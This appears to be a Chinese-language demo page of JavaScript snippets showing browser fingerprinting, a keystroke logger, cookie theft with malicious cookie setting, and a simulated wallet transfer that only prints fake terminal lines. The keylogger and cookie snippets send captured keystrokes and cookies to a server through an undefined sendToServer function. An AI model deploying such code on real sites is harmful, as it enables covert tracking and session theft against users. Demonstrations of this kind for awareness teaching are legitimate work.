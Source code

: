 #### 🔍 浏览器指纹识别
```javascript
const fingerprint = {
    userAgent: navigator.userAgent,
    language: navigator.language,
    platform: navigator.platform,
    screenResolution: `${screen.width}x${screen.height}`,
    timezone: Intl.DateTimeFormat().resolvedOptions().timeZone,
    plugins: Array.from(navigator.plugins).map(p => p.name),
    canvas: getCanvasFingerprint() // Canvas指纹
};
```

#### ⌨️ 键盘监听演示
```javascript
document.addEventListener('keydown', function(e) {
    // 记录所有键盘输入
    console.log(`Key pressed: ${e.key} at ${Date.now()}`);
    sendToServer('keystroke', {
        key: e.key,
        timestamp: Date.now(),
        target: e.target.tagName
    });
});
```

#### 🍪 Cookie窃取演示
```javascript
// 窃取所有Cookie
const cookies = document.cookie.split(';');
cookies.forEach(cookie => {
    sendToServer('stolen_cookie', cookie.trim());
});

// 设置恶意Cookie
document.cookie = "session_hijacked=true; path=/";
document.cookie = "attacker_id=" + Math.random().toString(36);
```

#### 💰 钱包资金转移模拟
```javascript
const fakeTransactions = [
    { amount: "0.05 ETH", to: "0x742d35Cc6634C0532925a3b8D4060D0EBC2f98D5" },
    { amount: "1.2 ETH", to: "0x8ba1f109551bD432803012645Hac136c22C39c7" },
    { amount: "0.8 ETH", to: "0x1234567890123456789012345678901234567890" }
];

fakeTransactions.forEach((tx, index) => {
    setTimeout(() => {
        addTerminalLine(`[WALLET] Transferring ${tx.amount} to ${tx.to}`);
    }, index * 800);
});
```
